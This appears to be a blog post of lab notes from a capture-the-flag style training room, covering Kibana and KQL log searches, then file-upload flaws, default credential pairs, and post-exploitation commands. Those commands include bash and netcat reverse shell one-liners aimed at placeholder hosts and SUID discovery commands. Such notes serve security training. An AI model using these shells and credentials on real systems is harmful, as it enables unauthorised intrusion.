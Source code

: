 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.  

### Operation Blue
Log analysis is crucial to blue-team work.  
- ELK: Elasticsearch, Logstash, and Kirbana  

ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
- Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
- KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).

| Query/Syntax | Description | Example |
| :---: | :---: | :---: |
| " " | Search for specific values. **Exact** search. | "TryHackMe" |
| ** | Wildcard for similar matches to value provided | United** (returns United Kingdom and United States) |
| OR | Shows documents that contain **either** value provided | "United Kingdom" OR "England" |
| AND | Shows documents that contain **both** values provided | "Ben" AND "25" |
| : | Search a specific field in the document. Field availability depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
- RCE: Uploading a script that the server runs giving control to the attacker.  
- XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

| Username | Password |
| :---: | :---: |
| admin | admin |
| administrator | administrator |
| admin@domainname | admin |
| guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

| Command | Use |
| :---: | :---: |
| ls | Gives idea of files and directories around you |
| cat | Outputs contents of documents like text files |
| pwd | Gives idea of where in system you are |
| whoami | Lets you know who you are |
| hostname | System name and potentially its role |
| uname -a | System info like OS, kernel version, etc. |
| id | Shows any groups current user is assigned to |
| ifconfig | Network setup info |
| bash -i >& /dev/tcp/\<your-ip>/\<port> 0>&1 | Begins reverse shell via bash |
| nc -e /bin/sh \<your-ip> \<port> | Begin reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
| find / -writable -type f 2>/dev/null \| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

